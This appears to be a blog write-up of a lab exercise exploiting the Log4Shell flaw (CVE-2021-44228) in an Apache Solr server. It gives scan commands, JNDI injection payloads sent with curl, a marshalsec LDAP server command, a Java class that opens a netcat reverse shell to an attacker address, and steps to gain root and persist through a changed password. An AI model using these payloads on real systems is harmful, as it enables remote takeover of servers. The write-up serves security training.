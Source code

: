 ```yaml
---
published: true
---
```

With CVE-2021-44228 vulerability (Log4Shell) posing a major threat to Java applications hosted on the internet with a CVSS score of 10.0 critical designation. Remote code execution can be accomplished by taking advantage of a Java Naming and Directory Interface (JNDI) within Log4j logging packages. Solar provides a test scenairo for exploitation of vulnerability.  

----------

Legal Notice && Usage: *The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*
*By continuing, you acknowledge the aforementioned user risk/responsibilities.*

----------


# Reconnaissance

## Enumeration

Nmap scan:

    nmap -v -p- 10.10.212.184

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640108734185_image.png)





futher enumerate port 8983

    nmap -sV -p 8983 10.10.212.184

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105066145_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105737675_image.png)

# Discovery


## Http Server

navigate to `http://10.10.212.184:8983`

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105787116_image.png)


Argument set for `-Dsolr.log.dir` set to `/var/solr/logs`

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105901767_image.png)


**Downloaded Task Files**

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105925136_image.png)


within the `solr.log` file we can discover and example of the solr log file that is normally generated.

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105981072_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105970426_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640106058730_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640106016837_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640106165663_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640106156327_image.png)



# Proof of Concept

navigate to `http://10.10.212.184:8983/solr/admin/cores`

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640106253666_image.png)



## log4j payload

    ${jndi:ldap://ATTACKERCONTROLLEDHOST}

**Creating a test scenario**

Adding a callback request from target to local attacking machine would allow a local listener to capture any incoming request

Listener setup on port 9999 locally and payload is sent via curl:

    curl 'http://10.10.212.184:8983/solr/admin/cores?foo=$\{jndi:ldap://10.10.159.175:9999\}'

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640106763648_image.png)


successful connection from target system to attacking system can be established by crafted injection to the `?foo` parameter.


**setup local LDAP server**

    java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR.ATTACKER.IP.ADDRESS:8000/#Exploit"

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109159869_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109171679_image.png)


**craft java reverse shell** 
on attacking machine create an exploit.


    public class Exploit {
        static {
            try {
                java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }

compile java exploit code:

    javac Exploit.java -source 8 -target 8

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640107727782_image.png)


newly created `Exploit.class` file that will be hosted locally and sent to target via the jndi payload.

**send payload**

    curl 'http://10.10.212.184:8983/solr/admin/cores?foo=$\{jndi:ldap://10.6.124.83:1389/Exploit\}'

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109326110_image.png)
![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109333074_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109310919_image.png)



# Persistence

Establishing a foothold on box as `solr`

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109529895_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109516480_image.png)


Check sudo `sudo -l`

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109599279_image.png)


called `"/bin/bash"` with sudo for a root shell.

changing password of `solr` for the ability to ssh into target.



<a href="https://www.buymeacoffee.com/execatwill"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me a pizza&emoji=🍕&slug=execatwill&button_colour=5F7FFF&font_colour=ffffff&font_family=Arial&outline_colour=000000&coffee_colour=FFDD00" /></a>

